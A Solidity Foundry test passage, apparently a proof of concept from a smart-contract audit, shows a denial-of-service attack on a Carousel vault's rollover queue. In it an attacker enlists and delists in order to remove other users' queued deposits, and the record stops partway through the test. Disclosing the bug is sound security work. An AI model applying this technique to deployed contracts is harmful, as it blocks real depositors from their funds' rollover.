 ```solidity

        (address premium, address collateral, uint256 marketId) = carouselFactory.createNewCarouselMarket(config);
        premiumVault = Carousel(premium);
        collateralVault = Carousel(collateral);

        // creating the first two epochs, with the first one beginning and the second one queued:

        (epochId1,) = carouselFactory.createEpochWithEmissions(
            marketId,
            uint40(block.timestamp+10), // epochBegin
            uint40(block.timestamp+20), // epochEnd
            100,1_000e18,1_000e18
        );

        vm.warp(block.timestamp+10); // epoch 1 has started

        // 10 timestamp gap between the first epoch and the second epoch
        (epochId2,) = carouselFactory.createEpochWithEmissions(
            marketId,
            uint40(block.timestamp+20), // epochBegin
            uint40(block.timestamp+30), // epochEnd
            100,1_000e18,1_000e18
        );

        // first epoch resolved with nullEpoch as there are no deposits
        controllerPeggedAssetV2.triggerNullEpoch(marketId,epochId1);
        vm.stopPrank();
    }

    /// showcasing the bug/exploit
    function testActiveDOS() public {

        // showcasing the ability of any user to prevent any other user from entering rollover queue
        // to perfrom a denial of service, the attacker will always keep one deposit in the rollover queue
        // then, following another user calling enlistInRollover(..), the attacker will call enlistInRollover(..)
        // and then they will call delistInRollover(..) which will remove the other user's queued deposit

        // other user deposits funds into the collateral vault
        vm.prank(user1);
        collateralVault.depositETH{value:1e18}(
            epochId2,user1
        );

        // attacker deposits as soon as the next epoch has been created - in this case the attacker is in the premium vault
        vm.prank(attacker);
        premiumVault.depositETH{value:10000}(
            epochId2,attacker
        );

        // attacker sticks their entry into the rollover queue, priming for attack
        vm.prank(attacker);
        premiumVault.enlistInRollover(
            epochId2,10000,attacker
        );

        // another user attempts to stick their entry into the rollover queue 
        vm.prank(user2);
```
